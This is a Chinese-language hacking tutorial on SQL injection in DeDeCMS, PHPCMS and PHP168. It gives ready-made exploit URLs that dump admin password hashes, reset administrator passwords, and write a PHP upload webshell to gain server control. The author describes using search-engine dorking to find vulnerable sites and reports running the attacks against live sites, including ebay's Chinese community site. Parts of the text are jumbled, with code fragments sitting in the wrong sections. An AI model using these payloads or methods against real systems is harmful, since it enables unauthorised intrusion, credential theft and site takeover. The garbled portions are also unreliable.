测试环境为使用帝国一键安装后的 Apache2、MySQL5、PHP5、Zend 环境，只要将文中涉及的三款 CMS 所有文件复制到 Web 下的相应目录即可，地址为 `http://localhost`。

## 字符型注入

注入类型分为“字符型”和“数字型”（至于“搜索型”应属于一种特殊字符型）。平常我们查找注入点就是从这两个方面入手的。本来字符型注入对于开启了 `Magic_quotes_gpc` 的 PHP 来说是不可能的，但是当爆出 PHP 字符编码绕过漏洞后，字符型就成了注入的首选。

## 1. DeDeCMS

由于 DeDe 已于漏洞公布的第一时间更新发布了 DedeCmsV5.1FreeSP1，经观察发现新旧版在版权声明处存在细小差异，旧版为“Powered by DEDECMS v5_1_GBK”，新版为“Powered by DEDECMS V51GBK_SP1”。这使得使用旧版 DeDeCMS 的网站原形毕露，以下漏洞均针对 2008 年 8 月 28 日更新之前的旧版系统。

首先百度搜索“Powered by DEDECMS_v5_1_GBK”、“Powered by DedeCms BIZ_5_1_GBK”等，如图1所示。
图1

漏洞1：`group/search.php`、`book/search.php`，可导致管理员密码泄露。利用点因为其他搜索页面对关键字有长度限制，后者注入变量涉及的 SQL 语句比较多，所以这里只给出 `group/search.php` 页面注入语句。

```text
group/search.php?keyword=%D5%5C%27+union+select+1,userid,substring(pwd,9,16),4,5,6,7,8,9,10,11,12,13,14,15,16,17+from+dede_admin%23&sad=g


```

从百度搜索结果中选择一个网站进行检测，如图2所示。因为 DeDe 使用 Session 验证管理员，并且 `pwd` 字段只保存了密码 MD5 码的前24位，所以必须对后16位（即 `substring(pwd,9,16)`）进行破解，或在线或暴力——毕竟这是最后的“一线生机”！这时我纳闷 DeDe 为何保存 MD5 码的前24位，如果保存小于24位或者隔位取数或者对 MD5 码做运算处理——总之是令入侵者即使注出 `pwd` 的值也无法还原出 MD5 码——让他纯粹连暴力破解的念想都没有。
图2

漏洞2：`plus/feedback.php` 直接 Update 修改管理员密码。

利用：此漏洞将直接修改管理员密码，如果最后还想还原管理员密码，就必须配合漏洞1使用。首先下载旧版，下载链接为 `http://www.dedecms.com/upimg/soft/2008/dedecmsv51-gbk.zip`，分析 `plus/feedback.php` 文件代码如下：

```php
$cts = array();
$cts['maintable'] = '#@__archives';
if(!empty($arcID)){ $cts = GetChannelTable($dsql,$arcID,'arc'); } // 语句①
if(empty($urlindex)) // 变量① urlindex='诚' union select 1,2,3%23
{ ...(略) }
else
{
  $row = $dsql->GetOne("Select id,url,title From `#@__cache_feedbackurl` where id='{$urlindex}' ");
  if(is_array($row)){
    ...(略)
  }else{ ...(略) }
}
```

```php
if($action=="send") // 变量② action=send
{
  ...(略)
  // 默认评论无验证码，即 $cfg_feedback_ck=0
  if(empty($notuser)) $notuser=0;
  if($notuser==1){
    // 变量③ notuser=1，匿名发表评论
    if(empty($username)) $username = 'guest';
  }
  ...(略)
  $msg = cn_substr(trimMsg($msg),1000);
  $ip = GetIP();
  $dtime = time();
  if(empty($face)) $face = '0';
  if($msg!='')
  {
    // 变量④ msg=mmmm，必须非空
    if(empty($rank)) $rank = '0';
    $inquery = "Insert into `#@__feedback`(aid,username,arctitle,urlindex,url,ip,msg,ischeck,dtime,rank,face)
      values('$arcID','$username','$arctitle','$urlindex','$arcurl','$ip','$msg','$ischeck','$dtime','$rank','$face')";
    $dsql->ExecuteNoneQuery($inquery);
    $row = $dsql->GetOne("Select count(*) as dd From `#@__feedback` where urlindex='$urlindex' Or aid='$arcID'"); // 语句②
    if(!empty($arcID))
    {
      $dsql->ExecuteNoneQuery("Update `{$cts['maintable']}` set postnum='{$row['dd']}',lastpost='".time()."' where ID='$arcID'");
      // 语句③，$cts['maintable']值由语句①的函数返回
    }
    ...(略)
  }
}
// GetChannelTable函数的SQL语句为：select c.ID as channelid,c.maintable,c.addtable from `#@__full_search` a left join `#@__channeltype` c on c.ID=a.channelid where a.aid='$id'
// 构造变量⑤ arcID=2诚'%20and%20aid=0%20union%20select%201,2,3%23
```

从变量①~变量⑤，我们可以确定需要 GET 的变量为：`"?action=send&notuser=1&msg=m&urlindex=诚' union select 1,2,3%23&arcID=2诚' and a.aid=0 union select 1,2,3%23"`；从语句③分析，我们构造 `$cts['maintable']` 值为：`"`dede_admin` set pwd='21232f297a57a5a743894a0e' where .id=1#"`，其中“21232f297a57a5a743894a0e”为“admin”MD5码的前24位，然后通过 SQL 语句 `select hex(`dede_admin` set pwd='21232f297a57a5a743894a0e' where ... )` 进一步利用。

id=1#`）获得字符串的 hex 值为“0x646564655F61646D696E6020736574207077643D27323132333266323937613537613561373433383934613065272077686572652069643D3123”，再构造语句①的变量 `$arcID` 为“诚’and aid=0 union select 1,0x646564655F61646D696E6020736574207077643D27323132333266323937613537613561373433383934613065272077686572652069643D3123,3%23”。暂且称为二次注入吧！于是我们得到完整的漏洞利用语句如下：

```text
/plus/feedback.php?action=send&notuser=1&msg=mm&urlindex=诚’%20union%20select%201,2,3%23&arcID=2,诚’%20and%20aid=0%20union%20select%201,0x646564655F61646D696E6020736574207077643D27323132333266323937613537613561373433383934613065272077686572652069643D3123,3%23


```

本地测试结果如图3所示。因为 DeDe 在处理 SQL 语句时有点问题，当 SQL 语句出错时并不终止 PHP 程序，而是继续执行。出现第一条出错提示，说明已执行到语句②；又因为 `if(!empty($arcID))` 条件为真，所以后面的语句③肯定也被执行了！
这样，我们就可以使用密码“admin”堂而皇之地登录后台了，再利用“功能菜单→辅助插件→文件管理器”直接上传 PHP 文件即可，如图4所示。

最后还需要恢复管理员的密码，只需要将 `select hex('dede_admin` set pwd='21232f297a57a5a743894a0e' where id=1#')` 中的“21232f297a57a5a743894a0e”替换成管理员原来的 pwd 值，再用得到的 hex 值替换漏洞利用语句中的“0x646564655F61646D...”即可。此外，还需要注意表名的前缀。

## 2. PHPCMS
PHPCMS 自 2008 年 7 月 17 日发布了 phpcms 2007 SP6 版后再没有更新过，虽然于 2008 年 9 月 1 日发布了 phpcms 2008 测试版，但遗憾的是，在 `include/db_mysql.class.php` 文件中依然使用“SET NAMES '$charset'”语句设置 MySql 连接的字符集，看来应该存在双字节编码绕过漏洞吧。

首先测试官网，搜索字符“诚’”，结果如图5所示；本地测试 phpcms2008 结果如图6所示。均出现语法错误！看来单引号起了作用，这说明 PHPCMS 的确存在漏洞，这样字符型注入就大显身手了。
### 漏洞1：search.php、ask/search.php 等搜索页面

利用：首先根据图6的出错语句提交“诚’） union SELECT COUNT(*) AS `count` FROM `phpcms2008_content`#”，依旧提示错误！然而将提示语句放入 PhpMyAdmin 中执行通过，都没问题！当查看搜索结果页面的源码时，赫然发现原来 Phpcms 将“select”前后的空格替换成了“&nbsp;”。从 `include/common.inc.php`、`include/global.func.php` 文件获得如下代码：

```php
// include/common.inc.php 文件
if($_COOKIE || $_POST || $_GET)
{
    input();
    if($_GET) extract($_GET);
    if($_POST) extract($_POST);
}

// include/global.func.php 文件
function input()
{
    if($_POST) $_POST = filter_sql($_POST);
    if($_GET) $_GET = filter_sql($_GET);
    ......
}

function filter_sql($string)
{
    $search_arr = array('/ union /i','/ select /i','/ update /i','/ outfile /i','/ or /i');
    $replace_arr = array('&nbsp;union&nbsp;','&nbsp;select&nbsp;','&nbsp;update&nbsp;','&nbsp;outfile&nbsp;','&nbsp;or&nbsp;');
    return is_array($string) ? array_map('filter_sql', $string) : preg_replace($search_arr, $replace_arr, $string);
}


```

不难看出，过滤的关键函数为 `filter_sql()`，作用是：如果提交的数据包含 `$search_arr` 指定的字符，将替换为 `$replace_arr` 字符，而这样的过滤是很脆弱的！绕过的方法有：Tab 空格、`/**/`（MySql 的注释符）、冗余等。

慎用 `extract`，定义 `int extract(array $var_array [, int $extract_type [, string $prefix ]])`，从数组中将变量导入到当前的符号表，如果没有指定 `extract_type`，则默认为 `EXTR_OVERWRITE`，详细参阅 http://cn.php.net/manual/zh/function.extract.php ，其中特别提醒如图7所示。
图7

所谓“不能信任的数据”，就是指不允许用户从外部提交的数据，比如全局变量、参数等。DeDe 使用了如下语句防止外部提交以“_globals”、“cfg_”开头的全局变量：

```php
// 全局安全检测
foreach($_REQUEST AS $_k => $_v) {
    if(eregi('^(_globals|cfg_)', $_k)) exit('Request var not allow!');
}
```

虽然 Phpcms 使用 `define` 定义了全局常量，但由于用户提交的数据不可预测性，一旦变量没有初始化，被用户恶意外部提交将导致无法预料的结果。这个问题后面还会遇到。因为变量 `keywords` 涉及多条 SQL 语句，所以放弃构造 union 语句，进行手工注入：

```sql
// phpcms--0x706870636d73，admin--0x61646D696E
// 猜解 username 为 phpcms 用户密码 MD5 值的第1位
诚/**/or/**/(select Ascii(substring(password,1,1)) from phpcms2008_member where username=0x706870636D73)>20)#

// 猜解 username 为 phpcms 用户密码 MD5 值的第2位
诚/**/or/**/(select Ascii(substring(password,2,1)) from phpcms2008_member where username=0x706870636D73)>20)#
......
```

注入要求“搜索‘诚’/**/or/**/1=1)#”有结果，而“诚’/**/or/**/1=2)#”无结果。如果搜索结果中确实存在中文“诚”字，可以在“诚”前增加任意字符串，目的是让 `or` 前的条件为假。其他搜索页面类似。由于 `search/index.php` 文件对关键字使用了 `strip_tags`（删除“<”“>”以及之间的所有字符）和 `htmlspecialchars`（把一些预定义字符转换为 HTML 实体，比如单引号转为“&#039;”等）过滤，所以不存在注入。2007 版使用 `ask/search.php` 页面注入，表名前缀默认为“phpcms_”。

### 漏洞2：找回密码存在 step 跳过漏洞

导致可以任意修改用户密码，包括管理员。2008 版为 `member/getpwd.php`，2007 版为 `member/getpassword.php`。利用 2008 版，问题出现在 `verify_authcode` 函数中（`member/member.class.php`），我们有必要分析一下该函数，因为短短十几行代码却存在多处问题。

```php
function verify_authcode($userid, $authcode)
{
    $info = $this->get($userid, 'm.username, m.groupid, i.regtime', 1); // 语句①
}
```

```php
// 问题①：$useid 应该为 $userid，因为在函数内部 $useid 无法获得，所以为0
// 空位的 MD5 为 d41d8cd98f00b204e9800998ecf8427e
if($info['groupid'] == 4) {
    $this->msg('user_is_actived');
    return false;
}
$verify_authcode = md5($info['username'].$info['regtime']); // 语句②
if($authcode != $verify_authcode) {
    $this->msg('authcode_is_illegal');
    // 问题③：此处没有 return false
}
$groupid = $this->M['enableadmincheck'] ? 5 : 4;
$update = array('groupid'=>$groupid);
$where = "userid='$userid'";
// 问题④：$userid 过滤问题，可构造 userid='1' and 1=2
$this->db->update($this->table, $update, $where);
$this->db->update($this->table_cache, $update, $where);
return true;
```

有一点我们需要了解，PHP、MySQL 会自动进行类型转换，成功则返回转换结果，失败则返回 0，且不会给出错误提示。测试中将注出的字符串类型结果插入整型字段时，MySQL 会直接将字符串转换为数字。即使尝试使用 `RPAD(str,len,padstr)` 进行填充，也会因字段长度限制被截断。

字符串转换成数字时，其值由字符串最前面的部分决定：若以合法数字开始，则按该数字取值；否则值为 0。合法数字可有正负号、整数/小数以及可选指数部分（`e` 或 `E` 后接数字）。

问题④处需要将 `userid` 设置成 `"1 and 1=2"`。在 `edit_password` 函数中 SQL 语句执行时，MySQL 会将该条件按数字类型转换判断。可在 phpMyAdmin 中验证：  
`select * from phpcms2008_member where userid='1 and 1=2'` 等价于 `select * from phpcms2008_member where userid='1'`。

分析后尝试利用该漏洞时，发现 `member/getpwd.php` 页面会因 `is_badword` 函数未定义而停止执行（测试版现象）。但上述结论对后续分析仍有帮助。以下若无特别说明，仅针对 PHPCMS 2007 sp6 版。

现在分析 2007 版的 `member/getpassword.php` 文件，当 `step=5` 时，程序进入如下代码：

```php
elseif($step == 5) {
    if(is_badword($username)) showmessage($LANG['username_not_accord_with_citizen']);
    // $username 为被修改密码的用户名

    $authstr = trim($authstr);
    if(strlen($authstr) != 32) showmessage($LANG['verify_string_not_correct']);
    if(strlen($password)<4 || strlen($password)>20) showmessage($LANG['password_not_less_than_4_longer_than_20']);

    $password = md5($password);
    $r = $db->query("UPDATE `TABLE_MEMBER` SET password='$password' WHERE username='$username' AND authstr='$authstr'");

    // 此处 $authstr 是注入关键
    // 通过构造并填充长度，影响 MySQL 注释/比较

    $member->make_authstr($username);
    $db->affected_rows()==1 ? showmessage($LANG['new_password_set_success'], $MOD['linkurl'].'login.php') : showmessage($LANG['new_password_set_fail'], $MOD['linkurl'].'login.php');
}
```

变量 `$authstr` 赋值“`' or /******/userid=1%23`”，使用 `or` 逻辑运算后，我们只需要知道用户的 `userid` 值便可以任意修改其密码了！如果使用 `username`，就必须使用用户名的 `0x` 形式的 hex 值，这有可能超过 `$authstr` 的限制长度 32。利用链接如下：

```text
member/getpassword.php?step=5&username=phpcms&authstr=' or /******/userid=1%23&password=123456

// 其中 step 的值不能修改，userid 根据实际修改，username 值不含特殊字符即可，也可以不指定，这样 make_authstr 将不会修改用户的 authstr 字段信息
```

如果将“`userid=1`”改为“`groupid=1`”（`or` 后应少一个 `*` 号），将会把所有管理员的密码改为“123456”，这有点歹毒了。既然我们修改了管理员的密码，最后还应该修改回去，当然利用此漏洞是办不了的。

### 漏洞3：`/yp/myitem.php` 可任意 Update 修改用户密码

因为 `/yp/myitem.php` 文件在 `editmemberinfo` 模块中的 `email` 变量过滤不严，导致可以任意 `Update` 修改用户密码。此漏洞使用 MD5 码进行修改，所以利用此漏洞我们可以恢复管理员的密码，但是此漏洞的利用需要登录用户。

利用：此漏洞比较简单，代码如下：

```php
case 'editmemberinfo':
  $byear = intval($byear);
  $byear = $byear=='19'?'2000':$byear;
  $bmonth = intval($bmonth);
  $bday = intval($bday);
  $birthday = $byear.'-'.$bmonth.'-'.$bday;
  if(!preg_match('/[0-9]{4}-[0-9]{1,2}-[0-9]{1,2}/',$birthday)) $birthday='0000-00-00';
  if(strlen($truename)>50) showmessage($LANG['truename_length'],'goback');
  $db->query("UPDATE ".TABLE_MEMBER_INFO." SET truename='$truename',gender='$gender',birthday='$birthday',idtype='$idtype',idcard='$idcard',province='$province',city='$city',area='$area',edulevel='$edulevel',usertace='$usertace',address='$address',telephone='$telephone' WHERE userid='$userid'");
  // 此 Update 语句修改 TABLE_MEMBER_INFO 表信息，尽管可以注入，但毫无意义
  $db->query("UPDATE ".TABLE_MEMBER." SET email='$email' WHERE userid='$userid'");
  // 构造 $email 值，修改 TABLE_MEMBER 表信息
  showmessage($LANG['basic_edit_success'],$forward);
  break;
```

于是构造 `$email` 值，得到此漏洞利用链接如下：

```text
yp/myitem.php?action=editmemberinfo&email=' set
password=0x... where userid=1%23
```

或者

```text
yp/myitem.php?action=editmemberinfo&email=' set
password=0x... where username=0x...%23
// 其中 0x... 为密码 MD5 码，用户名的 hex 值
```

但恢复管理员的密码就必须知道管理员密码的 MD5 值，下面我们继续看漏洞4。

### 漏洞4：`guestbook/index.php` 与 `area.php` 注入

`guestbook/index.php` 文件的 `$keyid` 变量，`area.php` 文件在 `city`、`area` 模块的 `$province`、`$city` 变量没有进一步过滤，导致注入。

利用 `area.php` 文件中使用的 `city_area` 函数（定义在 `include/area.func.php` 文件中），漏洞分析略，`union` 注出管理员信息的利用链接如下：

```text
// 利用链接1：
guestbook/?gid=1&keyid='/**/union/**/select/**/1,2,userid,username,password,authstr,7,8,9,10,11,12,13,14,15,16,17 from phpcms_member where groupid=1%23
// 如图8，注出 authstr 后，我们利用漏洞2时，貌似无需注入，只要提交正确的 username 和 authstr 就可以任意修改用户密码了！gid 值只要是大于0的数字即可。


```
```text
// 利用链接2：
area.php?action=area&city='/**/union/**/select/**/CONCAT(0x3C62723E7573657269643A,userid,0x3C62723E757365726E616D653A,username,0x3C62723E70617373776F72643A,password,0x3C62723E617574687374723A,authstr)/**/from%20phpcms_member%20where%20groupid=1%23
// 如图9，虽然 SQL 将每行返回一个字段值，但是我们利用 MySql 的 CONCAT 函数将多个字段值连出。

// 利用链接3：
area.php?action=city&province='/**/union/**/select/**/CONCAT(0x3C62723E7573657269643A,userid,0x3C62723E757365726E616D653A,username,...)
```

```text
23E70617373776E72643A,password,0x3C62723E6175\n74687374723A,authstr)/**/from%20phpcms_member%20where%20groupid=1%23\n\n// 与利用链接2类似。
```

图9

检测官网，利用链接3注入，结果如图10和图11所示。

图10

图11

当然，仅仅靠“groupid=1”条件判断超级管理员是不够的，在 phpcms_admin 表中还必须存在该用户信息，否则我们利用漏洞3将自己的 groupid 修改成1就可以成为超级管理员了。利用“/area.php?action=city&province=诚'/**/union/**/select/**/CONCAT(0x3C62723E7573657269643A,userid,0x3C62723E757365726E616D653A,username)/**/from%20phpcms2007_admin where grade=0%23”就可以得到超级管理员信息了。

这么多管理员！相信总有一个弱口令吧，在线破解，OK！试图登录后台，这时发现找不到登录页面，请求 admin 目录被转向“/admin.php?mod=phpcms&file=login”，提示出错“HTTP 404 找不到网页”，看来官方修改了 admin.php 文件名！常说“解铃还须系铃人”，在 Phpcms2007 在线手册（http://www.phpcms.cn/2007help/step-1/safe.html）中我们得知，从“/fckeditor/fckconfig.js”文件（此文件默认是可以直接下载的）中的“FCKConfig.Adminpath = 'phpcms-2007.php';”设置可以获得管理员登录文件名！再次登录，熟悉的界面出现了！如图12所示。此外还需要注意“网站设置”的“允许访问后台的 IP 列表”，一旦被设置，未被允许的 IP 登录时将提示“禁止访问”。登录后台后利用“系统设置->系统工具->在线文件管理器”即可上传、编辑、删除任意文件了，如图13所示。

图12

图13

检测黑基。在黑客基地网站搜索“诚'”时，发现它使用的是 Phpcms 系统，并且同样存在注入。如图14所示，虽然没有直接破解出管理员密码，但是相信利用漏洞应该可以修改密码，完成进一步的入侵。

## 数字型注入漏洞

通过以上漏洞分析，我们深刻体会到 PHP 字符串编码绕过漏洞危害的严重性。但是我们知道触发此漏洞也是有条件的，即 MySql 的 character_set_client 连接变量设置成了双字节字符集。防范的方法其实也很简单，只要设置 character_set_client 变量为“binary”，而且几乎不需要对 PHP 的其它语句做修改！于是弹指间滚滚硝烟随风而去，一切又趋于平和。然而另一种威胁悄然袭来——数字型注入漏洞！

## 1. PHPCMS

为了方便漏洞的查找，我们利用 DreamWeaver 的正则表达式搜索“(select|update|insert).*['"](\s)”，即“select”或“update”或“insert”后句含变量未用单引号引用的 SQL 语句，然后在结果中逐一进行分析，必要时删除 admin 目录，以减少搜索结果。

漏洞1：digg/digg_add.php 的 $id 变量未使用 intval 等函数过滤，导致注入。

利用：漏洞分析略，利用链接如下，结果如图15所示。

```text
digg/digg_add.php?channelid=1&digg_mod=article&id=66666/**/union/**/select/**/1,CONCAT(0x223E3C2F413E54686520526573756C74206F662053716C696E6A3A3C62723E7573657269643A,userid,0x3C62723E757365726E616D653A,username,0x3C62723E70617373776F72643A,password,0x3C62723E617574687374723A,authstr,0x3C62723E3C4120687265663D22),3,4,5/**/from%20phpcms_member%20where%20groupid=1%23
```

漏洞2：vote/vote.php 文件对 $op 变量未作过滤，直接放入 Update 语句执行，导致注入。wenba/handle.php 文件也存在类似漏洞。

利用：由于不是 Select 语句，不能直接 Union 出结果，利用比较麻烦，所以我们有必要分析代码。

```php
@extract($db->get_one("SELECT voteid,attribute FROM ".TABLE_VOTE_SUBJECT." WHERE passed=1 AND voteid='$voteid'"));
if($attribute){
    ......(略)
}else{
    // 默认允许游客参与投票
    $optionids = is_array($op) ? implode(',', $op) : $op;
    // 如果提交的$op是数组，则用逗号连接成字符串，否则直接赋值给$optionids
    $totalnumberadd = is_array($op) ? count($op) : 1;
    $outTime = (int)($PHP_TIME - 24*60*60);
    // 间隔24小时后方可投票
    $result = $db->query("SELECT votetime,ip FROM ".TABLE_VOTE_DATA." WHERE voteid='$voteid' AND ip='$PHP_IP' AND votetime > '$outTime'");
    // 同一IP地址对同一选项在24小时内只能投票一次，然而$PHP_IP可以伪造！
    if($db->affected_rows()>0){
        showmessage($LANG['cannot_vote_again_24'],'goback');
    }else{
        $db->query("UPDATE ".TABLE_VOTE_OPTION." SET number=number+1 WHERE optionid IN ($optionids)");
        // 未使用单引号直接引入Update语句
        $db->query("UPDATE ".TABLE_VOTE_SUBJECT." SET totalnumber=totalnumber+$totalnumberadd WHERE voteid='$voteid'");
        $db->query("INSERT INTO ".TABLE_VOTE_DATA." (voteid,voteuser,votetime,ip) VALUES ('$voteid','$username','$PHP_TIME','$PHP_IP')");
    }
}
```

```php
showmessage($LANG['thanks_vote'], PHPCMS_PATH.'vote/show.php?voteid='.$voteid);
```

因为 $optionids 变量的注入发生在 Update 语句 where 条件中，MySQL 又不支持多句查询，无法修改表字段，所以只有构造 and 条件手工注入了。当 and 条件成立时，$voteid 投票的 $op 选项投票数增加 1 票，否则票数不变。利用此漏洞的关键点注意：一是确定出 $voteid 和 $op；二是伪造 $PHP_IP，突破 IP 限制；三是减少干扰，尽量选择比较偏僻的、没人注意的投票进行注入。方法如下：

- 抓包，确定出 voteid 和 op，如图16所示。
- `voteid=1&op=2) and (select ascii(substring(password,2,1)) from phpcms_member where username=0x706870636d73)>50%23`（猜解密码第2位，ASCII 大于 98）。
- 包内容增加一行：`X_FORWARDED_FOR:1.1.1.1`（伪造 IP）。
- nc 提交，刷新投票页面 `/vote/show.php?voteid=1`，查看第2选项（op=2）票数是否加1。
- 修改第②的条件和第③的 IP，重复步骤④，直到跑出 password 字段全部内容。

检测 ebay 外贸门户网站。根据 phpcms 官方案例可知，ebay 采用的是 Phpcms 核心。经过初步检测，请求 `http://community.ebay.cn/ebaycms/digg/digg_add.php` 返回“此模块未安装或者已被禁用”，最后在“财富之路”发现启用了投票。先查看投票结果，修改 `voteid=1`，选择偏僻的投票进行注入测试，如图17所示。

进一步检测 `http://community.ebay.cn/ebaycms/vote/vote.php?voteid=1&op=y`，结果如图18所示。修改 `op=1` 提交投票成功。这时发现 ebay 取消了对同一 IP 24 小时内不能重复投票的限制，这更方便了注入，直接在 IE 地址栏以 GET 方式提交即可，如图19所示。

## 使用的链接如下：

```text
/vote/vote.php?voteid=1&op=1) and (select count(*) from phpcms_admin where grade=0)>5%23

// 猜解超级管理员人数，结果为13，看来ebay网站的规模确实够大！

/vote/vote.php?voteid=1&op=1) and (select userid from phpcms_admin where grade=0 order by userid limit 0,1)>1%23

// 猜解第1个超管的userid为1，修改“limit 0,1”中的“0”，逐个猜解出所有管理员的userid

/vote/vote.php?voteid=1&op=1) and (select length(username) from phpcms_member where userid=1)>6%23

// 猜解第1个超管的用户名长度为5

/vote/vote.php?voteid=1&op=1) and (select ascii(substring(username,2,1)) from phpcms_member where userid=1)>50%23

// 猜解第1个超管的用户名的第2个字符

/ vote/vote.php?voteid=1&op=1) and (select ascii(substring(password,2,1)) from phpcms_member where userid=1)>50%23

// 猜解第1个超管的密码MD5码的第2个字符
```

这些都是很平常的注入语句，所以进一步的检测猜解略。相信在这13个超管里也很有可能存在弱密码的，而且 ebay 使用默认的后台登录页面 admin.php。

漏洞3：wenba/my_answer.php 文件的 $status 变量未过滤导致注入。

利用：分析略；因为变量涉及两个 SQL 语句，所以无法使用 union，必须进行手工注入，如图20所示。

图20

漏洞4：yp/admin.php?file=cache&action=uuuuu&fid=1&tid=40&flagid=uu&table=999 页面存在注入。

利用：此漏洞页面实际调用的是 yp/web/admin/cache.inc.php 文件，需要登录用户才能利用，注入检测结果如图21所示。

我们有必要了解一下这种由一个文件调用其他文件来完成页面功能的方式。其实在 Phpcms 登录后台时，我们就曾接触过这种方式。

图21

Phpcms 登录后台时，我们就曾接触过这种方式，后台的所有功能均由网站根目录下的 admin.php 文件调用 admin 目录中的 *.inc.php 文件实现的。这种高度集成的页面调用方式，国外 CMS 比较常用，这也无形中给我们分析和测试带来了麻烦。一般被调用的文件前面使用类似“defined('IN_PHPCMS') or exit('Access Denied');”的语句，我们无法直接访问，必须通过页面调用。文件 yp/admin.php 的代码如下：

```php
<?php
......（略）
// 定义YP_ROOT_DIR常量为当前目录“/yp”，并运行一些基本的包含文件
if(isset($action) && $action == 'logout'){
  // 当action=logout时，清空Cookie
  mkcookie('auth','');
  showmessage($LANG['logout_success']);
}
if(!isset($file)) $file = 'index';
preg_match('/^[0-9A-Za-z_]+$/', $file) or showmessage('Invalid Request.');
// $file必须是数字或大小写英文字母，防止了跨目录
$filepath = YP_ROOT_DIR.'/web/admin/'.$file.'.inc.php';
if(!@include $filepath) showmessage($LANG['illegal_operation']);
// include()、require()说明（略）
?>
```

在最后一行使用“include $filepath”语句，包含并运行了由变量 `$file` 确定的文件，比如当“`file=cache`”时，将调用 `/yp/web/admin/cache.inc.php` 文件。此漏洞的利用需要精心构造变量，条件比较苛刻，所以我们不做深入分析，只了解一下这种调用方式即可。

漏洞5：`yp/web/admin/article.inc.php` 文件多处存在注入漏洞，导致直接写马。

利用：代码如下，此漏洞需要登录用户。

```php
switch($action)
{
case 'add':
if($dosubmit) {
    $article['username'] = $_username;
    $article['title'] = htmlspecialchars($article['title']);
    $article['thumb'] = htmlspecialchars($article['thumb']);
    $article['keywords'] = htmlspecialchars($article['keywords']);
    $article['addtime'] = $article['edittime'] = $PHP_TIME;

    foreach($article as $key=>$value) {
        $sql1 .= $s.$key;
        $sql2 .= $s."'".$value."'";
        $s=',';
    }

    $sql = "INSERT INTO `TABLE_YP_ARTICLE` ($sql1) VALUES($sql2)";
    // ...
}

case 'manage':
    // ...

case 'status':
if(empty($articleid)) {showmessage($LANG['illegal_parameters']);}
$articleids = is_array($articleid) ? implode(',', $articleid) : $articleid;
// ...
```

```php
$db->query("UPDATE `TABLE_YP_ARTICLE`
SET status=$status WHERE articleid IN ($articleids)
AND username='$_username'");
// 变量 $status、$articleids 没有过滤，存在注入
break;
```

通过分析，该文件存在一个致命问题：数组 `$article` 没有初始化！从上文我们知道，没有初始化的变量可以外部提交！比如“`article[uuu]=rrrr`”，因为外部提交的键名最先获得，所以构造出的利用链接如下：

```text
/yp/admin.php?file=article&action=add&dosubmit=1
&article[username,title,thumb,status]) VALUES (0x636F6F6C,2,3,4)%23=

// 提交键名为“username,title,thumb,status) VALUES(0x636F6F6C,2,3,4)%23”的数组变量
// 0x636F6F6C 为当前用户名 "cool" 的 hex 值
```

提交后将在表 `phpcms_yp_article` 中为“cool”用户插入一条记录，可见确实存在注入。然后只要将数字 2 改为子查询语句的 hex 值，即可注出管理员的敏感信息。但是此漏洞还有更高的利用价值——写马，分析略。

我们通过测试进行演示，首先登录用户，将上面的利用链接中的数字“2”改为“0x636F6F6C”或任意字符串的 hex 值，然后请求链接完成插入。当提示“添加成功”时，从 yp 的“管理中心->管理新闻”或直接打开链接“`/yp/admin.php?file=article&action=manage&status=4`”，由标题处打开链接，如图2.2所示，得到的页面实际上是调用如图2.3中的 8.php 文件。

如下链接：

```text
/yp/adminn.php?file=article&action=add&dosubmit=1&article[username;title;thumb;status]=...VALUES(0x636F6F6C,0x3C3F...)
```

“2”改为“0x3C3F20706870696E666F28293B3F3E”（字符串“<?phpinfo(); ?>”），打开页面如图24所示，说明函数 `phpinfo()` 已经执行！于是可以直接写马，这里使用 angel 的上传木马，代码如下：

- 2）传马（上传大马）。通过本地提交表单上传大马，表单 `ACTION` 值需根据实际修改。上传的木马文件保存于 `/yp/web` 目录中。

关于此文件及 Phpcms 的其他文件（比如 `wenba/admin/question.inc.php` 等）漏洞分析略过，感觉 Phpcms 的安全性还需要进一步加强。

## 2. Php168

Php168（官网 www.php168.com）的 2008 全功能版默认安装数据库字符集为 `latin1`，所以不存在字符编码绕过漏洞，重点分析数字型注入。

### 漏洞1

`download/js.php`、`flash/js.php`、`news/js.php` 等文件的变量 `_id` 没有过滤导致注入。

利用：由于 `global.php` 文件中存在如下代码，所以这些变量只要未被覆盖赋值，就是安全的。

```php
$ch=intval($ch);
$fid=intval($fid);
$aid=intval($aid);
$id=intval($id);
$page=intval($page);
```

```php
// 写入 PHP 文件的语句（hex）...
<?copy($_FILES[MyFile][tmp_name], $_FILES[MyFile][name]);?>

// 本地提交表单内容
<form ENCTYPE="multipart/form-data" ACTION="http://localhost/phpcms/yp/web/article.php?enterprise-2/item-8.html" METHOD="POST">
  <input NAME="MyFile" TYPE="file">
  <input VALUE="提交" TYPE="submit">
</form>
```

此漏洞利用的两个关键步骤：

- 1）插马（插入一句话上传木马），IE 请求……

利用链接如下：

```text
download/js.php?type=hot&_id=0)%20union%20SELECT%201,CONCAT(uid,0x2C,username,0x2C,password),3,4,...%20from%20p8_members%23
```

应该注意的是官网与一般网站注入的区别：`union` 语句中字段数、用户表名（如 `pw_members` 或 `p8_members`）可能不同；若只想注出超级管理员信息，可加 `where groupid=3` 条件。注入官网结果如图25所示。因为 Php168 的 Cookie 使用了自定义函数 `mymd5()` 加密，所以很难利用 Cookie 欺骗进入后台。

图25

### 漏洞2

`fenlei/jsshow.php` 文件中变量 `$string` 未过滤导致注入。利用：代码如下：

```php
$string='';
// 变量$string被初始化，所以无法构造提交
if(strstr($FROMURL,'&allid=')){
    $detail=explode('&allid=',$FROMURL);
    $detail=explode(',',$detail[1]);
    foreach($detail AS $key=>$value){
        if($value<1) unset($detail[$key]);
    }
    $string=implode(',',$detail);
    if(!$string){}
    else{$query=$db->query("SELECT* FROM {$pre}content WHERE id IN ($string)");}
}
```

这段代码的作用是取出 URL 中“&allid=”字符后的、由逗号分割后的字符（串）值不小于 1 的所有字符（串），例如“&allid=0,1,2,w,2e,3”取得 `$string` 为“1,2,2e,3”，“0”“w”因为小于 1 被删掉，字符串转换为数字。因为变量 `$string` 最终是从 `$FROMURL` 获取，所以继续分析，`inc/common.inc.php` 文件确定了 `$FROMURL` 的获取方式为“HTTP_REFERER”。

```php
// 文件inc/common.inc.php
$FROMURL=$_SERVER['HTTP_REFERER']?
$_SERVER['HTTP_REFERER']:$HTTP_SERVER_VARS['HTTP_REFERER'];
$FROMURL=filtrate($FROMURL);

// 文件inc/function.inc.php
function filtrate($msg){
    $msg=str_replace('&amp;','&',$msg);
    $msg=str_replace('&nbsp;',' ',$msg);
    $msg=str_replace('"','&quot;',$msg);
    $msg=str_replace("'",'&#39;',$msg);
    $msg=str_replace('<','&lt;',$msg);
